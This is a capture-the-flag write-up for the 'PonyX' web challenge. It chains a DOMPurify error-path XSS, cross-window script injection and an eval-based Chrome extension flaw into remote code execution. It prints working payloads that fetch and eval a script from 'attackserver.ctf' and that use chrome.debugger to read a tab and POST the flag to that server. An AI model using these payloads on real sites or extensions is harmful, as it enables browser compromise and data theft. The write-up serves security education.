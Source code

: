 # PonyX

## Description

> There's a hip new social media platform in ~~town~~ Ponyville, and you are invited to take a look before launch!
>
> Sadly, you can only write drafts while the *cooler* kids are having all the fun :(
>
> P.S. I heard the Admin is testing a translator extension?

---

## Challenge

Provided with the challenge is a TAR file containing the sourcecode for a website and a Chrome extension. We can load
the extension in Chrome by going to ``chrome://extensions/`` and enabling developer mode. Then we can click
on ``Load unpacked`` and select the folder containing the extension.
Looking at the sourcecode of the extension, we can see that it is a simple extension that will translate the text on the
website.

![untranslated posts](screenshot-posts.png)

This is done by the extension through injecting a script into the website.

```json
"content_scripts": [
{
"matches": [
"http://localhost:5000/posts/"
],
"js": [
"content.js"
],
"run_at": "document_end"
}
```

The script will then iterate over all posts on the website and translate the text of the post.

```javascript
function translateNode(author, node) {
    // Message passing
    chrome.runtime.sendMessage({
        type: "translation-request",
        data: {author: author, text: node.textContent}
    }, (response) => {
        // ...
    })
}

// Grab all post nodes
var posts = document.querySelectorAll("div.post");
posts.forEach(post => {
    // Extract information and translate
    const author = post.querySelector("p.author").textContent;
    const contentNode = post.querySelector("p.content");
    translateNode(author, contentNode);
});
```

The translation is done by sending a request to the `background.js` script, which will then translates the text based on
the post author. If the author is `robot-pony` it will simply `eval` the text.

```javascript
// Message passing
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
    // ...
else
    if (message.data.author === "robot-pony") {
        sendResponse({type: "translation-response", data: {text: eval(message.data.text)}});
    }
    // ...
});
```

This means that we can execute arbitrary JavaScript code on the website by creating a post with the author `robot-pony`.
The only problem is that the website is only a draft, so we can't create any actual posts.

## Solution

### Initial XSS

What we can do instead is to create a post draft which will be shown on the `/draft/preview.html` page.

![draft page](screenshot-draft.png)

But this page doesn't get translated by the extension. But what the `/draft/preview.html` page has is a XSS
vulnerability. This page
will take the `data` parameter from the URL and insert it into the HTML of the page. Before inserting it, it will use
the `DOMPurify` library to sanitize the input.
If we look closely, we can see that the unsanitized content is already put into the variable `data` before it is
passed to `DOMPurify`. The `data` variable is later used to set the `innerHTML` of the `preview` element.

```javascript
const urlParams = new URLSearchParams(window.location.search);
var data = "No data found";
try {
    if (urlParams.get('data')) {
        data = urlParams.get('data');
        data = DOMPurify.sanitize(decodeURIComponent(data))
    }
} catch {
    console.log("An Error Occured?");
}
document.getElementById("preview").innerHTML = data;
```

Additionally, before sanitization `data` is url decoded. Both, sanitization and url decoding happens within a `try`
block, but not the assignment of the `data` variable to the `innerHTML`. **This means that if an error occurs during
sanitization or url decoding, `data` will be inserted into the HTML unsanitized.** An error can be triggered by simply
adding a `%%` to the URL.

### Get XSS on the `/posts/` page

Now we are still on the `/draft/preview.html` page. To get the flag we still need to get code execution in the extension
and that is only possible from the `/posts/` page. However, we can't access the `/posts/` page directly from
the `/draft/preview.html` page, but we can use the `window.open` function to open a new window with the `/posts/` page.

```javascript
var newWindow = window.open('{BASE_URL}posts/');
```

Because the `/posts/` page is on the same domain as the `/draft/preview.html` page, we can now control the `newWindow`
object and through that execute code on the `/posts/` page as well.

## Inject a post for RCE

Now we can inject a post into the `/posts/` page that should then be processed by the extension. The problem here is
that we need to add
the post to the DOM of the `/posts/` page before the extension is executed, but at the same time when the page is
already partially
loaded, so our added post won't get removed through the loading process. This means that we can't use the onload event
of the page.

After some looking around we found the `animation-sync.js` script which is used to synchronize the background animation
of the website.

```javascript
// Needs to be at top of body to trigger before rendering starts
document.getAnimations()[0].currentTime = new Date().getTime();
```

This script is added through the `base.html` to the `<head>` of the website. This means that it will be executed before
the extension is loaded. Exactly what we need. The script uses the `Date.getTime()` function. We can utilize this by
adding a script to the `/posts/` page that will overwrite the `Date.getTime()` function with our own function that will
execute our code at the right moment.

```javascript
Date.prototype.getTime = function () {
    // Execute code here
    return new Date().valueOf();
}
```

Now in this context, we can create a post to the `/posts/` page that will be added at the right moment and loaded by the
extension.


<details>
  <summary>Full /posts/ page XSS code</summary>

```javascript
Date.prototype.getTime = function () {
    setTimeout(function () {
        // Create a new div element
        var newPostDiv = document.createElement('div');
        newPostDiv.className = 'post';

        // Create a paragraph for the author
        var authorParagraph = document.createElement('p');
        authorParagraph.className = 'author';
        authorParagraph.textContent = 'robot-pony';

        // Create a paragraph for the content
        var contentParagraph = document.createElement('p');
        contentParagraph.className = 'content';
        contentParagraph.textContent = 'fetch(\'http://attackserver.ctf/xss2.js\').then(response => response.text()).then(sC => {eval(sC);}).catch(e => console.error(\'Error:\', e));';

        // Append the paragraphs to the new div
        newPostDiv.appendChild(authorParagraph);
        newPostDiv.appendChild(contentParagraph);

        var pageDiv = document.querySelector('div.page');
        console.log(pageDiv);

        // Check if pageDiv is not null before appending
        if (pageDiv) {
            // Append the new div to the div.page element
            pageDiv.appendChild(newPostDiv);
        } else {
            console.error('div.page element not found');
        }
    }, 1);
    // Original getTime function
    return new Date().valueOf();
};
```

[xss.js](xss.js)

</details>

## RCE in the extension

Now we can create a code that gets picked up by the extension and executed. We decided to use a simple fetch to get a
second JavaScript file from our server and then execute this one as well for simplicity.

```javascript
fetch('http://attackserver.ctf/xss2.js').then(response => response.text()).then(sC => {
    eval(sC);
}).catch(e => console.error('Error:', e));
```

While testing around we noticed that chrome would complain about CORS when trying to fetch the second JavaScript file.
To fix this instead of using `python3 -m http.server` we just used the following script to serve the
files: https://gist.github.com/acdha/925e9ffc3d74ad59c3ea

## Get the flag

The flag is stored in a local text file. So we cannot simply fetch it from the extension. But looking at the sourcecode
of the extension we can see that the extension has debug permissions. This means that we can use the `chrome.debugger`
API.

```json
"permissions": [
"debugger"
]
```

Looking at the code of the bot we can see that the bot, before visiting our link will open the flag in a separate tab.
This means that we can use the `chrome.debugger` API to get the flag from the bot.

```javascript
chrome.debugger.getTargets((result) => {
    result.forEach((target) => {
        if (target.title.includes("flag")) {
            console.log("Found flag!");
            chrome.debugger.attach({targetId: target.id}, "1.3", () => {
                chrome.debugger.sendCommand({targetId: target.id}, "DOM.getDocument", {}, (result) => {
                    chrome.debugger.sendCommand({targetId: target.id}, "DOM.getOuterHTML", {nodeId: result.root.nodeId}, (response) => {
                        // Get the flag from the response
                        chrome.debugger.detach({targetId: target.id});
                    });
                });
            });
        }
    });
});
```

We simply made a fetch that send the content of the flag to our server.

```javascript
fetch("https://attackserver.ctf/flag", {
    method: "POST",
    body: JSON.stringify({flag: response.outerHTML})
})
```

## Solving script

* [xss.py](xss.py)
* [xss.js](xss.js)
* [xss2.js](xss2.js)

## Useful links

* https://developer.chrome.com/docs/extensions/reference/api/debugger?hl=en
* https://github.com/aszx87410/ctf-writeups/issues/20